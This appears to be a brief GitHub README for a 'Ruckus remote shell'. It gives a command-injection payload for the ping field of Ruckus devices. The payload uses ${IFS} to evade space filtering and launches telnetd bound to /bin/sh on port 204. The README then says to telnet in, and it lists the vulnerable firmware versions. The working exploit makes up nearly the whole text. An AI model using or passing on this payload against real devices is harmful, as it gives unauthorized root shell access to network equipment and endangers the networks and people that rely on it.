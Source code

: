 # ruckus remote shell
ruckus remote shell
Thanks to https://bitbucket.org/dudux/ruckus-rootshell

#run follow in ping:
|telnetd${IFS}-p${IFS}204${IFS}-l${IFS}/bin/sh

then telnet to port 204

only for version <= 100.1.0.0.194

To unlock countrycode, try bsp command.
